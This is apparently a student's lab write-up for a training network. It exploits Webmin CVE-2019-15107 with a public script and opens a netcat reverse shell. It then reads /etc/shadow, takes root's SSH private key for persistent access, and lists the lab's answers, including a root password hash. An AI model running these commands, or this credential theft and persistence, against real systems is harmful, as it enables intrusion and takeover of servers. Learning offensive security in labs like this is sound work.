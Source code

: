 In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Exploitation-20241127151137527.webp]]


[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

Run the following command to get the user.
```
# whoami
```

![[Exploitation-20241127151941324.webp]]

> [!Success]
>We won't need to escalate privileges here, so we can move on to the next step in the exploitation process. Before we do though: nice though this pseudoshell is, it's not a full reverse shell. Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.

> [!question]
>Which user was the server running as?
>`root'
## Shell

- Type `shell` and introduce the ATTACKING MACHINE IP and a port.


![[Exploitation-20241129143642892.webp]]

- Open a `netcat` connection on the #Attacking_Machine .

```
$ nc -lnvp <port>
```

You'll have a reverse shell.


## Stabilize the reverse shell

Stabilizing a **reverse shell** is crucial for maintaining a reliable connection and improving usability.

**Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm

```


## root user's password hash

Run the following command on the reverse shell:

```
# cat /etc/shadow
```

![[Exploitation-20241129144943322.webp]]

### **Hash Components**

1. **Hashing Algorithm**:  
    `$6$` signifies the use of **SHA-512** hashing.
    
2. **Salt**:  
    `i9vT8tk3SoXXxK2P` is the salt used in this hash. It randomizes the hash computation to ensure uniqueness, even if two users have the same password.
    
3. **Hash Value**:  
    `HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1` is the actual hash of the password combined with the salt.
    
4. **Remaining Fields**:  
    The `::0:99999:7:::` part relates to password aging and policy settings:
    
    - `0`: Minimum number of days before the password can be changed.
    - `99999`: Maximum number of days the password is valid.
    - `7`: Warning days before the password expires.
    - `:::`: Reserved fields, typically empty.


> [!question]
>Now for a little post-exploitation!What is the root user's password hash?
>`$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`


## Consistent access to the root user account

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

One of the services on the machine is SSH.

The **SSH (Secure Shell) service** is a network protocol that allows secure remote login and command execution over an encrypted connection. It is widely used to manage Linux/Unix systems remotely.

### **Key Features of SSH**

1. **Encryption**: All data transmitted between the client and server is encrypted.
2. **Authentication**:
    - Password-based authentication.
    - Key-based authentication using SSH keys.
3. **Port Forwarding**: Securely forward ports over an SSH connection.
4. **File Transfer**: Tools like `scp` and `sftp` are built on SSH for secure file transfer.
5. **Tunneling**: Encrypt network traffic for other applications (e.g., SOCKS proxy).

### **SSH Key Files Overview**

When you generate an SSH key pair, two files are created:

1. `id_rsa`: The private key (keep this secure and never share it).
2. `id_rsa.pub`: The public key (this can be shared and placed on the remote server).

These files are usually stored in the `~/.ssh/` directory on your Linux machine.

> [!question]
>What is the full path to this file?
>`/root/.ssh/id_rsa`

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

## Connect via SSH to prod-serv

Connect to the prod-server (10.200.84.200) via SSH.
```
ssh root@10.200.84.200 -i id_rsa
```




We have everything we need for now. Let's move on to the next section: Pivoting!

**Next section:** [[What is Pivoting?]]